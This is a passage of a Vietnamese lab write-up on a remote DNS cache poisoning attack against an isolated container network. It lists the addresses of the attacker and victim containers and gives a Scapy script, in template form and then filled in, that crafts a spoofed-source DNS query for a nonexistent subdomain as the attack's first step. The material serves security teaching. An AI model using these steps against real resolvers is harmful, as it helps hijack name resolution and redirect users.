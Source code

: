 Đối với DNS server giả mạo `ns.attacker32.com` thì địa chỉ IP của `www.example.com` là `1.2.3.5`

**Địa chỉ IP của các container trước khi thực hiện tấn công**
- `local-dns-server`: `10.61.7.53`
- `user`: `10.61.7.5`
- `attacker`: `10.61.7.1`
- `attacker-ns`: `10.61.7.153`


## II. Tạo thông điệp DNS Query truy vấn
### 1. Template
- Sử dụng script `gen_query.py` để tạo thông điệp truy vấn tên miền gửi tới `local-dns-server`.
```py
#!/usr/bin/python
from scapy.all import *

IP_packet = IP(dst="<Destination_IP_Address>", src="<Source_IP_Address>")
UDP_packet = UDP(dport=<Destination_Port>, sport=<Source_Port>, chksum=0)
Qdsec = DNSQR(qname='<Domain_name>')
DNSpkt = DNS(id=0xAAAA, qr=0,qdcount=1,ancount=0, nscount=0, arcount=0, qd=Qdsec)

request = IP_packet/UDP_packet/DNSpkt

with open('ip_req.bin','wb') as f:
	f.write(bytes(request))
```

Trong đó:
- `<Destination_IP_Address>` là địa chỉ IP của `local-dns-server`
- `<Source_IP_Address>` là một địa chỉ bất kì. Vì đây là thông điệp yêu cầu truy vấn DNS mà.
- `<Destination_Port>` là 53, số hiệu cổng dịch vụ DNS.
- `<Source_Port>` là một giá trị bất kì.
- `<Domain_name>` là tên miền cần truy vấn. Ở đây ta sẽ truy vấn đến một tên miền không tồn tại trong `example.com`

### 2. Thực hiện tạo query
- Điền thông tin vào template, ta có:
```py
#!/usr/bin/python
from scapy.all import *

IP_packet = IP(dst="10.61.7.53", src="10.61.7.100")
UDP_packet = UDP(dport=53, sport=9999, chksum=0)
Qdsec = DNSQR(qname='hieuv.example.com')
DNSpkt = DNS(id=0xAAAA, qr=0,qdcount=1,ancount=0, nscount=0, arcount=0, qd=Qdsec)

request = IP_packet/UDP_packet/DNSpkt

with open('ip_req.bin','wb') as f:
	f.write(bytes(request))
```
